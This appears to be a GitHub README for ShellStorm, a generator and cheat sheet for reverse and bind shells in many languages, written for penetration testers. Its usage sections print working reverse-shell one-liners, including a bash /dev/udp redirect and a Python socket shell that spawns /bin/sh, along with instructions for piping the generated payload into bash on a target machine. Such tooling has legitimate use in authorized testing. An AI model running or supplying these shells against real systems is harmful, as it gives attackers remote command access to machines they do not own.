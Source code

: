 # ShellStorm
Automatic reverse/bind shell generator cheat sheet.  

A compilation of knowledge over the years from many pentesters that you will recognize  
after reading the source code to make the process of creating reverse and bind connections easier  
for cybersecurity analysts.  

![alt text](https://github.com/0bfxgh0st/ShellStorm/blob/main/screenshots/Shellstorm.gif)

* Install requirements for generate **WAR** package.  
<pre>sudo apt-get update -y && sudo apt-get install default-jdk -y</pre>

## Available languages/programs  
<pre>
asp
awk
bash
c
cpan
dart
gawk
golang
groovy
java
jsp
lua
nc
nc-nef (netcat without -e flag, mkfifo)
nodejs
openssl
perl
php
php-daemon
php-simple
ps1
ps1-ds (powershell download string)
python
ruby
sbd
socat
telnet
war
</pre>

# TL;DR
## Try go further
* In some cases you can download shellstorm in any 'target' machine with Linux kernel (or WSL) and execute it by piping it if you prefer.  
<pre>
bash shellstorm.sh bash 10.2.54.13 1337 | bash
</pre>

* Do you want UDP shell? No problem, 'sed' it.
<pre>
bash shellstorm.sh bash 127.0.0.1 1337 | sed -e 's/tcp/udp/g'
Output:
bash -c "bash -i >& /dev/udp/127.0.0.1/1337 0>&1"
</pre>

* You can pipe it too.
<pre>
bash shellstorm.sh bash 127.0.0.1 1337 | sed -e 's/tcp/udp/g' | bash
Note:  
Remember use -u (udp) flag in netcat listener as following:  
nc -u -lvp 1337
</pre>

## Brains
In some cases you will find some payload that contains a **system call** as the following **'/bin/sh'** (for Linux) you can modify  
it by changing **'/bin/sh'** for **'cmd.exe'** and then you got a python payload for Windows in this case.  
<pre>
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
</pre>

## Relevant sources:  
<a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md">https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md</a>

